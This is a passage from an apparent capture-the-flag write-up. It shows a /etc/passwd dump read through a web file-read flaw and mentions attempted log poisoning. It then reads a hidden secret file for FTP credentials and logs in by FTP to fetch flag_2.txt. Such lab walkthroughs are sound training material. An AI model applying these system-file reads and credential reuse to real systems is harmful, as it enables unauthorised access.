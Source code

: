 ```bash
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
will:x:1000:1000:will:/home/will:/bin/bash
ftp:x:111:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
ftpuser:x:1001:1001:,,,:/home/ftpuser:/usr/sbin/nologin
mat:x:1002:1002:,#,,:/home/mat:/bin/bash
toby:x:1003:1003:,,,:/home/toby:/bin/bash
 </div>
</div>

</main>
```
It is.

After few failed attempts reading ftp or Apache logs to try log poisoning,
try to read the secret file that was found above by navigate to:
/var/www/html/secret_file_do_not_read.txt

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*47hK_ONEAw5aj9rdPYAVDw.png)

There are the credentials to connect ftp server with ftpuser.
connect it with:

```bash
ftp ftpuser@<IP-ADDRESS>
```
Grab flag2.
```bash
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls 
229 Entering Extended Passive Mode (|||49567|)
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Dec 03  2020 files
-rw-r--r--    1 0        0              21 Dec 03  2020 flag_2.txt
226 Directory send OK.
ftp> get flag_2.txt
local: flag_2.txt remote: flag_2.txt
229 Entering Extended Passive Mode (|||42621|)
150 Opening BINARY mode data connection for flag_2.txt (21 bytes).
100% |******************************************************************|    21      788.76 KiB/s    00:00 ETA
226 Transfer complete.
21 bytes received in 00:00 (0.19 KiB/s)
```
![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*-rKYRSKPSvWcR1SnA8cObA.png)
